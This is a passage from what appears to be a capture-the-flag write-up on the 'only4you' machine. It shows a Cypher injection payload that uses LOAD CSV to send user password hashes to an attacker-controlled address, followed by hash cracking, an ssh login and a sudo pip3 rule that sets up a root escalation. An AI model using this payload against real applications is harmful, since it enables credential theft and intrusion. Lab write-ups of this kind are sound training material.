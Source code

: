 Great! We have confirmed that we have injection. Now, we can try to extract hashes from the `user` part of the database. Using this command, we can extract the hashes of the users!

```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.5:5000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

<figure><img src="../../.gitbook/assets/image (51) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can crack these hashes on CrackStation.

<figure><img src="../../.gitbook/assets/image (65) (4) (1).png" alt=""><figcaption></figcaption></figure>

With this password, we can `ssh` in as `john`! Then, we can grab the user flag.

### Gogs and Sudo --> Root

Since we have the password of the user, we can check `sudo` privileges.

```
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```
